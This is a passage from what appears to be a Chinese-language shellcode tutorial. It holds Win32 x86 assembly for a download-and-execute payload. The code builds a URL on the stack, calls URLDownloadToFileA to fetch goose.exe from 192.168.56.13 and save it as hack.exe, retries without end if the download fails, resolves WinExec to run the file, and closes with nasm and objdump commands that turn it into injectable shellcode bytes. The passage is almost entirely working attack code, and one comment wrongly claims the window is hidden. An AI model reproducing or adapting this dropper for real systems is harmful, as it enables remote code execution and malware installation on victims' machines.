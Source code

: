   ```
  xor ecx, ecx
  push ecx
  ; URL: http://192.168.56.13/goose.exe
  push 0x6578652E         ; exe.
  push 0x74646573         ; tdes
  push 0x6F6F672F         ; oog/
  push 0x33312E36         ; 31.6
  push 0x352E3836         ; 5.86
  push 0x312E3239         ; 1.29
  push 0x312F2F3A         ; 1//:
  push 0x70747468         ; ptth
  push esp
  pop ecx                 ; save the URL string
  xor ebx, ebx
  push ebx
  ; save as hack.exe
  push 0x6578652E         ; exe.
  push 0x6B636168         ; kcah
  push esp
  pop ebx                 ; save the downloaded filename string
  xor edx, edx
  push edx
  push edx
  push ebx
  push ecx
  push edx
  mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
  call eax
  pop ecx
  add esp, 44
  xor edx, edx
  cmp eax, edx
  push ecx
  jnz download            ; if it fails to download , retry contineusly
  pop edx
  ```
- 查找`WinExec`函数，并调用该函数运行`hack.exe`
  ```
  ; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
  mov edx, 0x63657878     ; "cexx"
  shr edx, 8              ; Shifts edx register to the right 8 bits
  push edx                ; "\x00,cex"
  push 0x456E6957         ; EniW : 456E6957
  mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
  call findFunctionAddr   ; After Return EAX will = &WinExec

  ; Call WinExec( CmdLine, ShowState );
  ;   CmdLine   = "hack.exe"
  ;   ShowState = 0x00000000 = SW_HIDE - Hides the window and activates another window.
  xor ecx, ecx          ; clear eax register
  push ecx              ; string terminator 0x00 for "hack.exe" string
  push 0x6578652e       ; exe. : 6578652e
  push 0x6B636168       ; kcah : 6B636168
  mov ebx, esp          ; save pointer to "hack.exe" string in eax
  inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
  push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
  push ebx              ; lpcmdLine - push string address stack # 1st argument
  call eax              ; Call the WinExec Function
  ```
- 将汇编指令转化成 code
  ```
  nasm -f win32 win32-Download_Exec-Exit.asm -o win32-Download_Exec-Exit.o
  for i in $(objdump -D win32-Download_Exec-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
  ```